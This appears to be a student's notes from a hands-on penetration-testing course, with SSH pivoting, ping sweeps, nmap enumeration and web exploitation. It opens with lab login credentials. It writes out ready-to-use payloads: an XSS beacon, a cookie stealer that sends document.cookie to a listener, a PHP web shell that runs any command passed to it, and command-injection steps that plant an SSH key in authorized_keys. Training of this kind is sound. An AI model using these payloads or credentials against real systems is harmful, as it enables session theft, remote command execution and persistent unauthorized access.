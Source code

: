 #### Login Info
Stack#: 10
Username: DAHA-019-M
Password: oybOV5rOD7Jo
Jump: 10.50.15.68
# Operations and Scanning
Open source intel:
social medial, linkdin, whois
### Active Enumerations
#### nmap scripts
    ls /usr/share/nmap/scripts
### Control Sockets
Authenticate to JUmp box, -S create socket file to store socket s, -M uses multiplexing, Kepp this open or the connection will die. up to 17 hops deep only unising a single connection
### Create master socket:
    ssh -MS /tmp/jump student@10.50.15.68 (own ip)
    ssh -MS /tmp/demo demo1@10.50.14.70 (demo ip)

## After moving to a new box do a ping sweep:
    for i in {97..126}; do (ping -c 1 192.168.28.$i | grep "bytes from"&); done

Scan for ports on listed on hosts
### set up dynamic tunnel:
        ssh -S /tmp/demo demo -O forward -D 9050
Proxychains nmap (taget ip) 
verify port
proxychains nc (targetip) (taget port)
### to close the dynamic tunnel
        ssh -S /tmp/demo demo -O cancel -D 9050
### Add listenting port forward
    ssh -S /tmp/demo demo -O forward -L1111:192.168.28.100:80 -L 1112:192.168.28.100:2222
### Remove port forward
    ssh -S /tmp/demo demo -O cancel -L1111:192.168.28.100:80 -L 1112:192.168.28.100:2222
#### verify port is open/banner grab
    ss -ntlp | grep (port number)
## Example on how to Master socket between mulitple hosts

        ssh -MS /tmp/jump jump student@ip
        ssh -S /tmp/jump jump -O  forward -D 9050
        ssh -S /tmp/jump jump -L 1111:1.2.3.4:80 -L 1112:1.2.3.4:22

        ssh -ms /tmp/t1 cred@127.0.0.1 -p 1112
        ssh -S /tmp/jump jump -O cancel -D 9050 >>> ssh -s /tmp/t1 t1 -O farward -D 9050
        ssh -s  /tmp/t1 t1 -O forward -L 2111:2.3.4.5:22 -L 2112:2.3.4.5:80

# Web Exploitation
## Enumeration of a web server
### /robots.txt 
    allows you to see all websites within webserver that can all be searched for info
    http://127.0.0.1/robots.txt
### http-enum.nse
    A scirpt that can be used with nmao to enum the website off a webserver
    nmap --scripts=http-enum.nse <ip>
## Methods of site traversal
### Inspect websever / Console
        changeText()

### Cross-site scripting (XSS)
        <img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">
        setup nc -l on machine
#### Coookie Stealer
        <script>document.location="http://<ip of nc listener:port>/Cookie_Stealer1.php?username=" + document.cookie;</script>
set up nc 
### stored javascript components 
        <script>alert('XSS');</script>
### ../
        
### malicous file upload
    <HTML><BODY>
    <FORM METHOD="GET" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <?php
    if($_GET['cmd']) {
    system($_GET['cmd']);
    }
    ?>
    </pre>
    </BODY></HTML>
### Command injection
use semicolons in test boxes on the webserver
##ssh key upload
### generate our key
    ssh-keygen -t rsa -b 4096
    No Passphrase
    cat /home/student/.ssh/id_rsa.pub

    #copy and paste the WHOLE key
### Prepare website > cmd injection > know users and home directories (/etc/passwd)
#### make /.ssh in the users home directory
    ;mkdir <Users Home Direcotry>/.ssh
    ;ls -la <Users Home Direcotry>

### upload key
    ;echo "ssh key" >> <User Home Directory>/.ssh/authorized_keys
    ;cat <User Home Direcotry>/.ssh/authorized_keys
### ssh into machine
        ssh -i /home/student/www/.ssh/id_rsa <username>@127.0.0.1 - p <port opened>
        
    
    
        
        
